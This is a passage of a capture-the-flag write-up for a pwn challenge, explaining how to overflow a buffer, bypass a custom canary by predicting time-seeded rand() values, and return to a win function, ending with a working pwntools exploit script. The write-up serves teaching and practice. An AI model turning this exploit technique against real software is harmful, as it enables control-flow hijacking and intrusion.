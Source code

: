 So, the `rnd` will generate a random number and then compare to the return
value of `strol`. The `strol` function is

> The  strtol()  function converts the initial part of the string in nptr to a
> long integer value according to the given base, which must be between 2 and
> 36 inclusive,  or  be  the special value 0.

Now, this will convert all the input before a `space` is received and convert
that to long. So, we know that we need this to be equal to our `guess`
variable.  
Next, we need to identify the offset where the buffer will overflow and
overwrite the value of `localCanary`. To do that, we'll be using GDB
([pwndbg](https://github.com/pwndbg/pwndbg))

We'll be using `cyclic` and also setting up breakpoint at the `random_guess`
function. Now, looking at the disassembly, we can see that the `localCanary`
variable is being set at `rbp-0x4`. So, we'll be using `cyclic` to generate a
pattern and then using `cyclic -l` to find the offset.

![chal](https://www.theflash2k.me/_next/image?url=%2Fstatic%2Fwriteups%2Famateurctf2023%2Fpwn%2Frntk-3.png&w=1080&q=75)

Now, we can see that we've found the offset i.e. `44`. So, the payload
crafting now will be somthing like:

```md  
1. The first four bytes are the number we want to guess  
2. The next `40` bytes are the junk-payload (0th will be a space)  
3. The next `4` bytes are the `localCanary` value  
4. The next we'll add a cyclic pattern to find the offset  
NOTE: As I've already told you, in 64bit, we can guess that the offset will be
SIZE + 16 i.e. 40 + 16 = 56. So, after 56 bytes, if we write the address of
our `win` function, we can get the flag.  
```

> I created a local flag.txt with `TEST:FLAG` as the content to test the
> payload.

Now, the payload; with knowing that `56` bytes is the offset, and adding the
win function will look something like this:

```py  
#!/usr/bin/python3  
from pwn import *  
from ctypes import *

elf = context.binary = ELF("./chal")  
io = process()

libc = cdll.LoadLibrary(elf.libc.path)  
_time = libc.time(0x0)  
libc.srand(_time)

offset = 44  
io.sendlineafter(b"Exit\n", b'2')  
canary = libc.rand()  
guess  = libc.rand()  
__init  = f"{guess} AAAA".encode()  
payload = __init + b"\x90" * (offset - len(__init)) + canary.to_bytes(4,
'little') + (b"A" * 8) + p64(elf.sym.win)  
io.sendlineafter(b"guess: ", payload)  
info(io.recv())  
```

